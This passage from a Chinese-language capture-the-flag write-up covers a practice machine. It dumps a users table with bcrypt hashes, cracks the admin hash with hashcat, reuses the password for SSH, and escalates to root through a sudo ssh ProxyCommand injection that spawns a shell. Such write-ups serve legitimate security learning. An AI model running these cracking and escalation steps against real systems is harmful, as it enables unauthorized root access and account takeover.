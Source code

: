    ```
    public | users        | table    | postgres
   (3 rows)
   
   select * from users; #检索users表里的数据
      name    |                           password                           | role  
   -----------+--------------------------------------------------------------+-------
    kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
    admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin
   
   ```

   使用在线哈希识别工具识别出这个哈希是bcrypt Unix，对应的hashcat mode是3200

   ![image-20231010191433766](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202310101915042.png)

   使用hashcat破解密码哈希，得到admin用户的密码manchesterunited

   ```
   └─# hashcat -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
   $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm:manchesterunited
   ```

5. 考虑到密码复用的情况，使用 josh：manchesterunited凭证通过ssh链接上目标机器



6. 发现jsoh用户可以sudo执行ssh命令

   ![image-20231010192310001](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202310101923130.png)

   执行下列命令提权到root

   ```bash
   sudo /usr/bin/ssh -o ProxyCommand=';sh 0<&2 1>&2' x
   ```

   ![image-20231010192741423](https://raw.githubusercontent.com/yxl2001/Note-drawing-bed/main/images/202310101927309.png)
